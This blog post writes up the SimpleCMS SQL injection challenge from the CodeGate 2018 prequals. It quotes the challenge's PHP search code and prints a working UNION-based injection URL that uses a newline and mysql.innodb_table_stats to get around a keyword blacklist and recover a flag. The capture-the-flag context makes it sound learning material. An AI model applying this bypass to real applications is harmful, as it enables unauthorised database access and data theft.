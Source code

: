 ```yaml
---
layout: post
title:  "SQLi - CodeGatePreQuals - 2018"
image: ''
date:   2018-02-04 00:06:31
tags:
- Web Security, CTF, CodeGate 2018, Prequals, SQLi, Source Code SQLi
description: 'Code Gate PreQuals Web Challenge writeup'
categories:
- Web, CTF, SQLi, Web Security
---
```


As usual, the CTF contained pretty hard challenges and there were only two web challenges. The challenge name was `SimpleCMS` which is basically a Content Management System for which they gave the source code. Woah, neet and clean and yes, setting up a challenge locally is nothing more awesome!

Moving onto the challenge, from the very first view, it seems to be SQLi but I was obvious that there were some filters as I tried to register with a password as `password` which was basically denied and that was because `or` was filtered by the `waf` file.

Since an instance was running locally, I was able to figure out that the `flag` was in the third column of the table named `xx_flag` where in `xx` denoted a random str. Also, there is a column in the table but then even that has a random str appended towards the beginning. So now, I knew that I have to get the table name, column name as well. The next question was, SQLi - how, where?

The next step was finding out where the injection point is and after a fair amount of time, I was able to find that, query is `LOWER({$column[$i]}) like '%{$search}%' {$operator}` and yes, possibly injection in `{$search}`. Moreover, I did not find `LIKE` keyword to be listed in the blacklist.

Taking a look at the `search code` in the file `Board.class.php` gives us more information about the search function.

```
<?php
function action_search(){
			$column = Context::get('col');
			$search = Context::get('search');
			$type = strtolower(Context::get('type'));
			$operator = 'or';

			if($type === '1'){
				$operator = 'or';
			}
			else if($type === '2'){
				$operator = 'and';
			}
			if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
				$column = 'title';
			}
			$query = get_search_query($column, $search, $operator);
			$result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
			include(CMS_SKIN_PATH . 'board.php');
		}
		function action_read(){
			$idx = Context::get('idx');
			if(!$idx)
				alert('not found', 'back');
			$query = array('idx'=>$idx);

			$result = DB::fetch_row('board', $query);
			include(CMS_SKIN_PATH . 'post.php');
		}
	}
  ?>
```

In the above code, which is pretty weird, you can see that a newline can cause an error.

So building up the payload:

```
http://13.125.3.183/index.php?act=board&mid=search&col=title#&type=1&search=test%0a)<0 union select 1,(select table_name from mysql.innodb_table_stats limit 2,1),3,4,5#
```
which fetches the `{table_prefix}` and also, `information_schema` can't be used and that is also blacklisted and finally building the payload to get the `flag` using `join` fetches us `flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`.


Reach me out on <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
